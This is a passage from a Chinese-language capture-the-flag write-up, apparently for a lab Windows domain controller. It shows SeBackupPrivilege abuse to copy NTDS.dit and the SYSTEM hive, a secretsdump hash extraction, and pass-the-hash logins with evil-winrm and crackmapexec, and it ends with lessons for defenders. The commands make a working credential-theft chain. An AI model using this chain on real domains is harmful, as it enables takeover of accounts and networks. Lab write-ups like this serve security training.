- disable auditor's account (audit2020) -- KO. 
- use nominative domain admin accounts instead of this one -- KO. We will probably have to backup & restore things later. - Mike. PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

根据笔记，他们还没有禁用 audti2020 帐户(这将导致访问 forensic 共享)。

正在尝试复制 root.txt:

```
*Evil-WinRM* PS C:\Users\svc_backup\music> copy-filesebackupprivilege C:\users\administrator\desktop\root.txt .\root.txt -overwrite Opening input file. - Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED)) At line:1 char:1 + copy-filesebackupprivilege C:\users\administrator\desktop\root.txt .\ ... + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception     + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
```

仍然无法复制 root.txt，因为它是加密的，我认为只能在桌面上读取。继续进行`SEBackupPrivilege` 滥用，我仍然需要传输 NTDS.dit，还需要转储系统配置单元。

```
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\users\svc_backup\music\ntds.dit -Overwrite C:\Users\svc_backup\music> reg save HKLM\SYSTEM c:\users\svc_backup\music\system.hive 
The operation completed successfully.
```

我现在可以使用`Evil-WinRM’s`下载功能下载 NTDS.dit 和 system.hive 文件。然后，使用`Impacket’s` secretsdump.py 解析 NTDS.dit:

```
secretsdump.py LOCAL -system system.hive -ntds ntds.dit -outputfile secretsdump.out
```

然后我得到哈希值:



我现在可以利用 PowerShell Remoting 作为`Administrator`用户登录，并读取 root.txt:

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```



或者使用`crackmapexec` 来执行代码:

```
cme smb 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee -d blackfield.local -x "whoami"
```



同时检查 watcher.ps1 脚本:



该脚本每 30 秒运行一次，使用 Start-Sleep(sleep 只是一个别名)并通过 PowerShell Remoting 加密 root.txt。

## 经验教训

*   在 Kerberos 中禁用不需要预授权(导致对`support` 用户的访问)
*   禁用已经用于计算机取证/审计的帐户(导致用户帐户`audit2020`的存在)
*   在遭到破坏并且知道所有域凭证都暴露后，更改所有用户帐户的密码，尤其是高权限帐户(led 访问`svc_backup` 用户)

我的文章到此结束。我希望你学到了新的东西！感谢阅读！🍺